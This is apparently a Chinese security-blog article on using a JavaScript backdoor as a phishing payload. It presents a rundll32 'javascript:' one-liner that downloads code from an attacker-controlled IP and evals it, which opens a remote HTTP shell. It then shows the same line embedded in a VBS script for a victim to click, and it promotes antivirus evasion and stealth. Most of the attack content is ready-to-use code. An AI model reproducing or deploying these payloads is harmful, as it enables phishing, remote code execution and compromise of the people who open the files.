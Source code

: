 # JavaScript Phishing

0x00 前言
=======

* * *

前段时间分享了JavaScript Backdoor技术，着重对其功能的开发、Bug的优化做了介绍，这次研究一下JavaScript Backdoor在实际渗透测试中的利用方法。

![Alt text](http://drops.javaweb.org/uploads/images/03b46fd05d9f111a3a4bffa00426d96d3d654789.jpg)

0x01 简介
=======

* * *

**特点：**

通过cmd执行代码即可弹回shell

**优势：**

*   免杀
*   简便
*   较隐蔽

**利用思路：**

综合其优势特点，JavaScript作为Phishing Payload有着意想不到的效果，下面就结合相关漏洞做简要介绍

0x02 隐藏在vbs中
============

* * *

最简便的方法，将JavaScript的上线代码写到vbs中

原始的JavaScript 上线代码：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.136/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

```

对应vbs中的代码（注意转义字符）：

```
set shell=createobject("wscript.shell")
shell.run "rundll32.exe javascript:""\..\mshtml,RunHTMLApplication "";document.write();h=new%20ActiveXObject(""WinHttp.WinHttpRequest.5.1"");h.Open(""GET"",""http://192.168.174.136/connect"",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(""WScript.Shell"").Run(""cmd /c taskkill /f /im rundll32.exe"",0,true);}",0

```

点击vbs脚本，即可弹回HTTP shell
